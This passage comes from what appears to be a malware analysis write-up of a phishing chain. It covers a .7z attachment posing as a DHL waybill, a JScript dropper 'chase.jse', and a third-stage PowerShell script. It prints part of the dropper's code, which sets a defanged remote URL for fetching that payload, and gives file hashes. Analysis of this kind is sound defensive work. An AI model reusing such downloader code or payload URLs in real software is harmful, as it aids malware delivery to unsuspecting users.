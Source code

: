 The malware itself is contained within the .7z attachment. We can see the attachment, `AWB DHL#84411.7z` (1fc37de1e469b72f89bd7624b4ffcbde), has many VT detections for "Trojan" & "Downloader".

We can use the `7z` command-line tool to extract this, revealing it contains a singular file `chase.jse`.

[![2](/assets/images/Nova/2.png)](/assets/images/Nova/2.png){: .full}

# Stage 2 (chase.jse)

We can see the 2nd stage, `chase.jse` (9a94ce2082740a534cf547af0a068102) is responsible for downloading another stage:

```js
// Constants to avoid magic strings
var URL = "hXXps://files[.]catbox[.]moe/8e6thc.ps1";
var DownloadPath = "C:\\Temp\\dddddd.ps1";
var TEMP_DIR = "C:\\Temp";
var SUCCESS_STATUS = 200;

//[...REDACTED...]
```

This 3rd stage, `8e6thc.ps1`, was downloaded via the `DownloadScript()` function, that uses a defined `http` object:
